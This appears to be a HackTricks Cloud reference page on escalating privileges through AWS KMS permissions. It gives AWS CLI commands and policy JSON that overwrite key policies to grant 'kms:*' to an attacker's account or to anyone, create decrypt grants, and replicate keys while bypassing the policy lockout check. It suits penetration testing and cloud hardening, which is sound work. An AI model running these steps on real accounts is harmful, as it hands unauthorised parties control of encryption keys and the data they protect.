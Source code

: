 # AWS - KMS Privesc

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## KMS

For more info about KMS check:

{% content-ref url="../aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### `kms:ListKeys`,`kms:PutKeyPolicy`, (`kms:ListKeyPolicies`, `kms:GetKeyPolicy`)

With these permissions it's possible to **modify the access permissions to the key** so it can be used by other accounts or even anyone:

{% code overflow="wrap" %}
```bash
aws kms list-keys
aws kms list-key-policies --key-id <id> # Although only 1 max per key
aws kms get-key-policy --key-id <id> --policy-name <policy_name>
# AWS KMS keys can only have 1 policy, so you need to use the same name to overwrite the policy (the name is usually "default")
aws kms put-key-policy --key-id <id> --policy-name <policy_name> --policy file:///tmp/policy.json
```
{% endcode %}

policy.json:

```json
{
    "Version" : "2012-10-17",
    "Id" : "key-consolepolicy-3",
    "Statement" : [ 
        {
            "Sid" : "Enable IAM User Permissions",
            "Effect" : "Allow",
            "Principal" : {
                "AWS" : "arn:aws:iam::<origin_account>:root"
            },
            "Action" : "kms:*",
            "Resource" : "*"
        }, 
        {
            "Sid" : "Allow all use",
            "Effect" : "Allow",
            "Principal" : {
                "AWS" : "arn:aws:iam::<attackers_account>:root"
            },
            "Action" : [ "kms:*" ],
            "Resource" : "*"
        }
    ]
}
```

### `kms:CreateGrant`

It **allows a principal to use a KMS key:**

```bash
aws kms create-grant \
    --key-id 1234abcd-12ab-34cd-56ef-1234567890ab \
    --grantee-principal arn:aws:iam::123456789012:user/exampleUser \
    --operations Decrypt
```

{% hint style="warning" %}
A grant can only allow certain types of operations: [https://docs.aws.amazon.com/kms/latest/developerguide/grants.html#terms-grant-operations](https://docs.aws.amazon.com/kms/latest/developerguide/grants.html#terms-grant-operations)
{% endhint %}

{% hint style="warning" %}
Note that it might take a couple of minutes for KMS to **allow the user to use the key after the grant has been generated**. Once that time has passed, the principal can use the KMS key without needing to specify anything.\
However, if it's needed to use the grant right away [use a grant token](https://docs.aws.amazon.com/kms/latest/developerguide/grant-manage.html#using-grant-token) (check the following code).\
For [**more info read this**](https://docs.aws.amazon.com/kms/latest/developerguide/grant-manage.html#using-grant-token).
{% endhint %}

```bash
# Use the grant token in a request
aws kms generate-data-key \
    --key-id 1234abcd-12ab-34cd-56ef-1234567890ab \
    –-key-spec AES_256 \
    --grant-tokens $token
```

Note that it's possible to list grant of keys with:

```bash
aws kms list-grants --key-id <value>
```

### `kms:CreateKey`, `kms:ReplicateKey`

With these permissions it's possible to replicate a multi-region enabled KMS key in a different region with a different policy.

So, an attacker could abuse this to obtain privesc his access to the key and use it

{% code overflow="wrap" %}
```bash
aws kms replicate-key --key-id mrk-c10357313a644d69b4b28b88523ef20c --replica-region eu-west-3 --bypass-policy-lockout-safety-check --policy file:///tmp/policy.yml

{
    "Version": "2012-10-17",
    "Id": "key-consolepolicy-3",
    "Statement": [
        {
            "Sid": "Enable IAM User Permissions",
            "Effect": "Allow",
            "Principal": {
                "AWS": "*"
            },
            "Action": "kms:*",
            "Resource": "*"
        }
    ]
}
```
{% endcode %}

### `kms:Decrypt`

This permission allows to use a key to decrypt some information.\
For more information check:

{% content-ref url="../aws-post-exploitation/aws-kms-post-exploitation.md" %}
[aws-kms-post-exploitation.md](../aws-post-exploitation/aws-kms-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
